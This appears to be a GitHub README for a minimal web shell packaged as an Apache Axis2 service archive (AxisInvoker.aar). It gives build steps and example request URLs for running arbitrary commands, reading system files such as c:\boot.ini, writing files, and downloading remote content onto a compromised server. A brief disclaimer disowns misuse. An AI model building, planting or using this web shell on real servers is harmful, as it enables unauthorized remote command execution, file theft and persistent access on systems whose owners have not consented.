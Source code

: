 # Introduction

A minimal webshell for Apache AXIS2

# Legal disclaimer

Using this tool is legit but hacking may not be. The author does not take any responsibility for such activities.

# Build instructions

Modify `$JAVA_HOME` variable if necessary (e.g to be compatible with JDK 1.6 series)

Then run `ant -v` to build it, you can find the compiled archive in `build` directory, aka `build/AxisInvoker.aar`

# Supported commands?

- exec  - Run a command, works on both Linux/Windows, no worries.   
   http://192.168.56.103:8080/axis2/services/AxisInvoker/exec?cmd=dir%20C:
   
   
- write - Write a file
   http://192.168.56.103:8080/axis2/services/AxisInvoker/write?path=c:\1.1txt&content=123
   

- info  - Display certain informations, modify as needed
  http://192.168.56.103:8080/axis2/services/AxisInvoker/info
  

- read  - Read contents of a file
  http://192.168.56.103:8080/axis2/services/AxisInvoker/read?path=c:\boot.ini
  

- download - Download a file and save it somewhere
  http://192.168.56.103:8080/axis2/services/AxisInvoker/download?url=http://www.baidu.com&file=c:\122.txt
  


